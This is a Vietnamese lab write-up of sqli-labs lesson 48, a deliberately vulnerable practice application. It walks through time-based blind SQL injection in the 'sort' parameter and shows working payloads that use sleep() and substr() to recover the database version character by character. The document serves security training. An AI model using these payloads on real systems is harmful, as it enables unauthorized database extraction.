 # Những việc làm được với lesson-48
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-48


![](../images/lesson48/screen_6.png)

Giống như lesson-46 thì ta nhập giá trị và nhập ký tự đặc biệt trong truy vấn 

![](../images/lesson48/screen_1.png)

Nhưng mà kết quả ta nhận được ở đây thì không giống và không có cảnh báo lỗi. Vậy ta không thể sử dụng được error base nữa mà ta cần phải sử dụng đến time-base. Ta sẽ phải tìm ra cấu trúc của câu truy vấn trong DB với giá trị sort để có thể sử dụng thêm được time-base. Cấu trúc của bài này 
```
sort = $sort 
``` 

1. Kiểm tra DB 

```
192.168.80.225/sqli-labs/Less-48/?sort=1%20 and if(substr((select @@version),1,1)='5',sleep(1),false) --+
```

![](../images/lesson48/screen.png)

Ta đã tìm thấy được Từ đầu tiên trong Tên DB. Tương tự như thế ta tìm tăng lên 

```
192.168.80.225/sqli-labs/Less-48/?sort=1%20 and if(substr((select @@version),1,3)='5.5',sleep(1),false) --+
```

![](../images/lesson48/screen_2.png)

Ta đa đúng được 3 ký tự. Ta có thể đoán được 

![](../images/lesson48/screen_3.png)

Tương tự như thế ta áp dụng với vài câu truy vấn ta có thể tìm được DB của nó nhưng mất khá nhiều thời gian 